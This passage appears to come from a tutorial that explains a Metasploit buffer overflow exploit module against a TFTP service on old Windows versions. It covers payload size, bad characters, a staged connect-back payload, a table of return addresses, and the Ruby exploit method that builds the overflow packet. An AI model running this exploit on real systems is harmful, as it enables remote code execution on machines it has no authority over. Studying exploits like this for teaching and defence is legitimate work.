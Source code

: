 * The payload is one of the key aspects we need to examine. This states that we have 210 bytes of space for our payload to reside in. Any larger and we may possibly run into issues of corruption or truncation of our exploit.
* Bad characters signify bytes that may impact our exploit. We need to ensure none of these characters are in our shellcode, and in this case it’s the almost universally bad null character ‘0x00’
* Finally we see something called stack adjustment. Essentially because we’re so restricted in space we need to utilize something called a staged payload. What we’re doing is only sending a small first instruction which is designed to connect back to us and get the main payload, which wouldn’t regularly fit. Because of this we need to adjust the stack pointer back 3500 bytes so it has room to actually write the payload without overwriting itself.

_Targets_

```ruby
'Targets'        =>
        [
        # Patrick - Tested OK w2k sp0, sp4, xp sp 0, xp sp2 - en 2007/08/24
          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear
        ],
```

* Metasploit has a wide variety of targets for many exploits, which really is mostly a wide variety of suitable return addresses for each operating system. Because they are often using system dll’s these addresses are not changed from computer to computer and ensures exploit compatibility. In our case we wish to use the return address donated by c0re, Windows XP SP3.

_The Exploit_

```ruby
def exploit
    connect_udp

    sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
    sploit << payload.encoded
    sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
    sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
    sploit << "\x00" + "netascii" + "\x00"

    udp_sock.put(sploit)

    disconnect_udp
```

Let's go line by line
